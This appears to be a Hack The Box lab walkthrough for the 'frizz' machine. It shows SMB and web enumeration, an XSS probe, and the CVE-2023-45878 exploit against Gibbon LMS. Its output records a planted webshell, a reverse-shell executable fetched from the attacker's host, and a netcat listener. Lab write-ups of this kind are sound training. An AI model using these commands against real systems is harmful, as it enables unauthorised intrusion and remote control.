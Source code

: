 
> enum4linux-ng -A 10.10.11.60 -oA results.txt

> enum4linux -u 'guest' -p '' -a 10.10.11.60

## HTTP enum

> gobuster dir -u http://10.10.11.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --timeout 5s -x php,txt

```
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 301) [Size: 333] [--> http://10.10.11.60/home/]
/Home                 (Status: 301) [Size: 333] [--> http://10.10.11.60/Home/]
```

went there and found out use website GIBBON version 25
http://frizzdc.frizz.htb/Gibbon-LMS/index.php?loginReturn=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E

![[Pasted image 20250530133305.png]]

vulnerable to **CVE-2023-45878**

> wget https://github.com/0xyy66/CVE-2023-45878_to_RCE/blob/main/CVE-2023-45878.sh

> ./CVE-2023-45878.sh 10.10.16.14 4444 10.10.11.60

```
/CVE-2023-45878.sh 10.10.16.14 4444 10.10.11.60
Generating TCP reverse shell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: 7zip.exe
TCP reverse shell generated: 7zip.exe
Spawining a webshell on the target
Shell available at http://10.10.11.60/Gibbon-LMS/gibbon_myconfig.php?cmd=whoami
Python http.server started on port 80 - PID: 17658
10.10.11.60 - - [30/May/2025 03:43:44] "GET /7zip.exe HTTP/1.1" 200 -
Reverse shell uploaded
./CVE-2023-45878.sh: line 48: 17658 Killed                  python -m http.server $py_http_srv_port > /dev/null
Start a listener on port 4444, press ENTER when you are ready to execute the reverse shell on the target.
Netcat: nc -lnvp 4444
Msfconsole:  use exploit/multi/handler; set lhost 10.10.16.14; set lport 4444; run

```

make a listener, using netcat

> nc -lnvp 4444

